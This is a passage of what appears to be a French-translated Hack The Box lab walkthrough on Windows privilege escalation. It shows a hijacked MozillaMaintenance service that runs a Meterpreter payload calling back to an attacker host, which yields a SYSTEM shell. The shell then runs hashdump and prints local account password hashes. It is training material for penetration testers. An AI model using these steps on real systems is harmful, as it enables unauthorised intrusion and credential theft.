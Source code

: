 ```
C:\htb> net start MozillaMaintenance

Le service ne répond pas à la fonction de contrôle

Plus d'aide est disponible en tapant NET HELPMSG 2186

```

#### Recevoir une session Meterpreter

Nous obtiendrons une erreur en essayant de démarrer le service, mais nous recevrons toujours un rappel une fois le binaire Meterpreter exécuté.

Recevoir une session Meterpreter

```
[*] Démarrage du gestionnaire inverse HTTPS sur https://10.10.14.3:8443
[*] https://10.10.14.3:8443 demande de traitement du 10.129.43.13 ; (UUID : syyuxztc) Charge utile x64 intermédiaire (201 308 octets)...
[*] Session Meterpreter 1 ouverte (10.10.14.3:8443 -> 10.129.43.13:52047) au 2021-05-14 13:38:55 -0400

meterpreter > getuid

Nom d'utilisateur du serveur : NT AUTHORITY\SYSTEM

meterpreter > sysinfo

Ordinateur : WINLPE-WS02
Système d'exploitation : Windows 10 (10.0 Build 18363).
Architecture : x64
Langue du système : en_US
Domaine : GROUPE DE TRAVAIL
Utilisateurs connectés : 6
Meterpreter : x64/windows

meterpreter > hashdump

Administrateur :500 :aad3b435b51404eeaad3b435b51404ee :31d6cfe0d16ae931b73c59d7e0c089c0 :: :
Compte par défaut : 503 : aad3b435b51404eeaad3b435b51404ee : 31d6cfe0d16ae931b73c59d7e0c089c0 :: :
Invité:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 :::
htb-étudiant:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6 :::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::
Compte utilitaire WDAG : 504 : aad3b435b51404eeaad3b435b51404ee : c93428723187f868ae2f99d4fa66dceb :: :

```